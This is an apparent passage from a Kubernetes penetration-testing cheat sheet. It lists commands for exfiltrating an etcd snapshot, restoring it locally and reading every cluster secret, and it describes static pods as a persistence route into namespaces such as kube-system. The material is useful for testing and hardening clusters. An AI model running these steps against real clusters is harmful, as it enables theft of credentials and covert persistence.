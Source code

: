 #### Read secrets from etcd 2 [from here](https://www.linkedin.com/posts/grahamhelton_want-to-hack-kubernetes-here-is-a-cheatsheet-activity-7241139106708164608-hLAC/?utm_source=share&utm_medium=member_android)

1. Create a snapshot of the **`etcd`** database. Check [**this script**](https://gist.github.com/grahamhelton/0740e1fc168f241d1286744a61a1e160) for further info.
2. Transfer the **`etcd`** snapshot out of the node in your favourite way.
3. Unpack the database:

```bash
mkdir -p restore ; etcdutl snapshot restore etcd-loot-backup.db \ --data-dir ./restore
```

4. Start **`etcd`** on your local machine and make it use the stolen snapshot:

```bash
etcd \ --data-dir=./restore \ --initial-cluster=state=existing \ --snapshot='./etcd-loot-backup.db'

```

5. List all the secrets:

```bash
etcdctl get "" --prefix --keys-only | grep secret
```

6. Get the secfrets:

```bash
 etcdctl get /registry/secrets/default/my-secret
```

### Static/Mirrored Pods Persistence

_Static Pods_ are managed directly by the kubelet daemon on a specific node, without the API server observing them. Unlike Pods that are managed by the control plane (for example, a Deployment); instead, the **kubelet watches each static Pod** (and restarts it if it fails).

Therefore, static Pods are always **bound to one Kubelet** on a specific node.

The **kubelet automatically tries to create a mirror Pod on the Kubernetes API server** for each static Pod. This means that the Pods running on a node are visible on the API server, but cannot be controlled from there. The Pod names will be suffixed with the node hostname with a leading hyphen.

> [!CAUTION]
> The **`spec` of a static Pod cannot refer to other API objects** (e.g., ServiceAccount, ConfigMap, Secret, etc. So **you cannot abuse this behaviour to launch a pod with an arbitrary serviceAccount** in the current node to compromise the cluster. But you could use this to run pods in different namespaces (in case thats useful for some reason).

If you are inside the node host you can make it create a **static pod inside itself**. This is pretty useful because it might allow you to **create a pod in a different namespace** like **kube-system**.

In order to create a static pod, the [**docs are a great help**](https://kubernetes.io/docs/tasks/configure-pod-container/static-pod/). You basically need 2 things:

- Configure the param **`--pod-manifest-path=/etc/kubernetes/manifests`** in the **kubelet service**, or in the **kubelet config** ([**staticPodPath**](https://kubernetes.io/docs/reference/config-api/kubelet-config.v1beta1/#kubelet-config-k8s-io-v1beta1-KubeletConfiguration)) and restart the service
- Create the definition on the **pod definition** in **`/etc/kubernetes/manifests`**
